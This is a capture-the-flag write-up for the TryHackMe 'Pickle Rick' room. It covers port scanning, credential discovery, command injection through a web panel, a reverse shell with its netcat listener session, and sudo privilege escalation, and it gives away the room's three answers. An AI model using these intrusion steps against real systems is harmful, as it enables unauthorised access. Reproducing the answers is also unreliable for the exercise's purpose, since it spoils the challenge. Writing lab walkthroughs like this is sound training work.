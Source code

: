 # Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

Room URL: https://tryhackme.com/room/picklerick

---

# Task 1

nmap shows there's two open ports. The challenge hints at using gobuster, so
let's run gobuster while starting assigment 1.

```bash
nmap -sC -sV 10.10.4.29
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-01 13:08 CEST
Nmap scan report for 10.10.4.29
Host is up (0.049s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c8:f2:13:e8:57:74:33:37:bc:4d:86:f5:5d:15:bb:81 (RSA)
|   256 60:ce:fa:70:29:a4:c2:97:ad:8a:61:4d:f2:86:8e:06 (ECDSA)
|_  256 2f:12:7d:88:22:0e:0f:bd:73:78:27:f4:2c:b6:06:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

1. What is the first ingredient Rick needs?

The page source of the index shows a commented html section. Maybe that'll be
useful later.

```html
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

`gobuster` reveals several pages:

```
/index.html (Status: 200)
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)
/robots.txt (Status: 200)
```

The `portal.php` page redirefcts us to `login.php` so let's focus on there. We
already found a username in the index and the `robots.txt` contains an odd
string, maybe that's the password? Yes!

Now we're on the `portal.php` page which has a command panel to maybe execute
commands? Yes!

![](commandpanel.png)

Let's try and cat that super secret ingredient. So.. that doesn't work.

![](commandpanel2.png)

Luckily there's multiple ways of getting to output the contents of that file,
lets try `head` and `tail`. No luck. Seems we're lucky by using `grep ''
Sup3rS3cretPickl3Ingred.txt`

```
mr. meeseek hair
```

2. Whats the second ingredient Rick needs?

Seeing there's not much else on this website, let's try to get a reverse shell.
I can't use `netcat` for this, because it's disabled just like `head`. Luckily
[pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
has some great examples. It seems we can use the `python3` binary.

![](commandpanel3.png)

```bash
$ nc -lnvp 9999
Connection from 10.10.4.29:43356
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
$ cat clue.txt
Look around the file system for the other ingredient.
```

After trying some find for all txt files without result, I checked out the
homedirs, and lo and behold, the homedir of rick has the ingredient.

```
$ cat /home/rick/second\ ingredients
1 jerry tear
```

```
1 jerry tear
```

3. Whats the final ingredient Rick needs?

I'm guessing this last one is in `/root` so let's try and privesc.

`sudo -l` shows we can basically do anything we like

```bash
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-4-29.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-4-29.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

```bash
$ sudo ls /root
3rd.txt
snap
$ sudo cat /root/3rd.txt
3rd ingredients: fleeb juice
```

```
fleeb juice
```
